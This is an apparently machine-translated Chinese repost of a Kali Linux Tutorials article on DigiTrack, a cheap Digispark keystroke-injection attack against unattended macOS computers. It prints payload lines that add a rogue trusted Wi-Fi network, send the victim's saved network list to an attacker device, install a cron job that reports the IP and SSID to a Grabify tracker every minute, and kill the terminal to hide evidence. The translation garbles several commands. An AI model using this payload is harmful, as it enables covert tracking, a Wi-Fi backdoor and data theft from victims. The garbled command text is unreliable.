

# DigiTrack:使用 Arduino 的 5 美元或更少的攻击

> 原文：<https://kalilinuxtutorials.com/digitrack/>

在 30 秒内， **DigiTrack** attack 可以学习一台 MacOS 电脑之前连接过哪些网络，每 60 秒植入一个跟踪当前 IP 地址和 Wi-Fi 网络的脚本。

它包括 hard tracker–Digispark VPN buster，可以每 60 秒钟将 MacOS 电脑上附近 Wi-Fi 网络的 IP 地址和 BSSID/SSID 发送到 Grabify 跟踪器。

**这是一次价值 5 美元的攻击，它做了几件事:**

*   在受害者计算机上插入 Wi-Fi 后门，允许您在 Wi-Fi 范围内的任何时候捕获受害者的数据连接。
*   窃取受害者曾经连接过的每个网络的列表(用于跟踪、分类和劫持数据连接)
*   插入一个跟踪作业，每 60 秒向 Grabify 链接发送一次 IP 地址和当前连接的网络。

**也可阅读-[CVE-2020-0796:Windows SMB v3 客户端/服务器远程代码执行漏洞](https://kalilinuxtutorials.com/cve-2020-0796/)**

**攻击过程:**受害者将一台 MacOS 电脑无人看管 30 秒。攻击者插入一个加载了攻击有效载荷的 DigiSpark 板。有效负载如下所示(删除了延迟和单次击键):

*   **digi keyboard . print(" network setup-setairport network en0 ' sneaker net ' 0000000 ")；**
    *   我们将网络“Sneakernet”添加到我们的可信网络列表中，并连接到它。
*   **digi keyboard . print(" curl-M10–silent–output/dev/null-X POST-H " Content-Type:text/plain–data " $(network setup-listpreferredwirelessnetworks en0)" 192 . 168 . 4 . 1&"；**
    *   连接后，我们向 esp8266 发送一个 CURL 请求，列出 MacOS 计算机过去连接过的每个网络，创建“Sneakernet”网络。&将这个过程放在后台，以防它花费太长时间，而-m 设置一个 10 秒的计时器来防止它花费太长时间。现在我们知道受害者加入了哪些 Wi-Fi 网络，哪些网络会在没有询问的情况下强制电脑连接。
*   **digi keyboard . print(" export VISUAL = nano；crontab-e”)；**
    *   我们创建一个每 60 秒执行一次的作业
*   **digi keyboard . print(" * * * * * * curl–silent–output/dev/null–referer " $(/System/Library/private frameworks/apple 80211 . framework/Versions/Current/Resources/airport-I | awk '/SSID/{ print substr $ 0，index $ 0，$ 2))} ')"[https://grabi/your link](https://grabi/YOURLINK)"；**
    *   我们抑制 CURL 的输出，抓取当前连接的 Wi-Fi 网络的网络名称。我们将它和 CURL 请求一起发送到一个跟踪 URL，每 60 秒发送一次目标的 IP 地址和当前连接的 Wi-Fi 网络。
*   **DigiKeyboard.print("等等&kill-9 $(PS-p $ PPID-o ppid =)")；**
    *   最后，我们等待所有后台进程完成，并杀死终端窗口的狗屎隐藏证据。

总运行时间约为 30 秒，不包括 Digisparks 等待草图上传的几秒钟。

注意: Grabify 可能会进入“我受到攻击”模式，并且不允许签入。寻找这一行:div class = " cf-browser-verification cf-im-under-attack "

如果您看到它，则该 IP 地址被 cloudflare 阻止。

[**Download**](https://github.com/skickar/DigiTrack)